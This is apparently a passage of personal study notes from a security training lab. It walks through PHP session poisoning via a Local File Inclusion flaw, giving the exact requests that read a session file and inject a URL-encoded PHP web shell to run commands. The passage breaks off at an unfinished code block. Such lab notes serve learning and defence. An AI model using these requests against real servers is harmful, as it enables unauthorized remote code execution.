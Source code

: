 > As we can see, our `PHPSESSID` cookie value is `nhhv8i0o6ua4g88bkdl9u1fdsd`, so it should be stored at `/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd`. Let's try include this session file through the LFI vulnerability and view its contents:
> 
> ```bash
> http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd
> ```
> 
> ![Untitled](../../../../0xN1ghtM4r3-Notebook%203351968cf3f74ad68a09245768551fca/0xR3Y4D-Notebook%207651c00ee0914affa2b674b2d962ac9c/Server%20Side%20Attacks%20b1a016ea12d5480c9b34a987022407f6/File%20Inclusions%20273322b142ad4dd2806ca52bd28d7e9a/Study%20Notes%20e9a012804c054c9ea5aa1aa5ac36b644/Untitled%206.png)
> 

> the `page` value is under our control, as we can control it through the `?language=` parameter.Let's try setting the value of `page` a custom value (e.g. `language parameter`) and see if it changes in the session file. We can do so by simply visiting the page with `?language=session_poisoning` specified, as follows:
> 
> 
> ```bash
> http://<SERVER_IP>:<PORT>/index.php?language=session_poisoning
> ```
> 
> ```bash
> http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd
> ```
> 
> ![Untitled](../../../../0xN1ghtM4r3-Notebook%203351968cf3f74ad68a09245768551fca/0xR3Y4D-Notebook%207651c00ee0914affa2b674b2d962ac9c/Server%20Side%20Attacks%20b1a016ea12d5480c9b34a987022407f6/File%20Inclusions%20273322b142ad4dd2806ca52bd28d7e9a/Study%20Notes%20e9a012804c054c9ea5aa1aa5ac36b644/Untitled%207.png)
> 
> <aside>
> 💡 This time, the session file contains `session_poisoning` instead of `es.php`, which confirms our ability to control the value of `page` in the session file. Our next step is to perform the `poisoning` step by writing PHP code to the session file. We can write a basic PHP web shell by changing the `?language=` parameter to a URL encoded web shell, as follows:
> 
> </aside>
> 
> ```bash
> http://<SERVER_IP>:<PORT>/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E
> ```
> 
> Finally, we can include the session file and use the `&cmd=id` to execute a commands:
> 
> ```bash